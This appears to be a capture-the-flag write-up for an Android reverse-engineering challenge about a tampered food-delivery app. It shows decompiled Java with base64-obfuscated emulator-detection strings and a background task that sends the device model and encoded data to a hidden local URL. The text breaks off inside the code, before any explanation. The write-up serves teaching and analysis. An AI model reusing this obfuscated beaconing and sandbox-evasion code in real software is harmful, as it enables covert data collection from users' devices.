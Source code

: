 Sorry for my bed england 
# Reversee engineering

## free delivery

### Description:
```
Mr. Krabs has decided to make a new food delivery app for the Krusty Krab but Plankton decided to make his own patched version. Loyal Krusty Krab customers are saying weird network traffic and shell commands are coming from the app! Can you figure out what's going on?```

### Solution:

First, we upload the app on jadx. By taking a look at the AndroidManifest.xml, we can tell that the main activity is at `com.example.freedelivery.MainActivity`.

```java
public class MainActivity extends androidx.appcompat.app.e implements View.OnClickListener {

    /* renamed from: e  reason: collision with root package name */
    public String f12219e = X0("Zw==");

    /* renamed from: f  reason: collision with root package name */
    public String f12220f = Build.MODEL;

    /* renamed from: a  reason: collision with root package name */
    public String[] f12217a = {this.f12219e + X0("b28=") + this.f12219e + X0("bGU="), X0("c2Rr"), X0("eA=="), String.valueOf(Z0()), X0("YXJtC" + this.f12219e + "=="), X0("dWxhdG9y")};

    /* renamed from: b  reason: collision with root package name */
    public String[] f12218b = {this.f12217a[4] + this.f12217a[4], this.f12219e + X0("ZW5lcmlj"), this.f12217a[4] + this.f12217a[5], X0("dW5rbm93b" + this.f12219e + "=="), this.f12219e + X0("b2xkZmlzaA=="), X0("cmFuY2h1"), this.f12217a[0] + "_" + this.f12217a[1], "Em" + this.f12217a[5], "Android " + this.f12217a[1].toUpperCase() + X0("IGJ1aWx0IGZvciB4") + this.f12217a[3], X0("R2VueW1vdGlvbg=="), X0("c2Rr"), X0("c2lt") + this.f12217a[5], X0("ZW0=") + this.f12217a[5]};

    /* loaded from: classes.dex */
    public class a extends AsyncTask<Void, Void, String> {
        public a() {
        }

        @Override // android.os.AsyncTask
        /* renamed from: a */
        public String doInBackground(Void... voidArr) {
            try {
                MainActivity mainActivity = MainActivity.this;
                StringBuilder sb = new StringBuilder();
                sb.append(MainActivity.X0("aHR0cDovLzEyNy4wLjAuMToxMjU0"));
                MainActivity mainActivity2 = MainActivity.this;
                sb.append(mainActivity2.a1(mainActivity2.f12220f));
                mainActivity.Q0(sb.toString());
                MainActivity mainActivity3 = MainActivity.this;
                StringBuilder sb2 = new StringBuilder();
                sb2.append(MainActivity.X0("aHR0cDovLzEyNy4wLjAuMToxMjU0"));
                MainActivity mainActivity4 = MainActivity.this;
                sb2.append(mainActivity4.a1(mainActivity4.W0()));
                mainActivity3.Q0(sb2.toString());
                MainActivity mainActivity5 = MainActivity.this;
                mainActivity5.Q0(MainActivity.X0("aHR0cDovLzEyNy4wLjAuMToxMjU0") + "AzE9Omd0eG8XHhEcHTx1Nz0dN2MjfzF2MDYdICE6fyMa");
                return "";
```
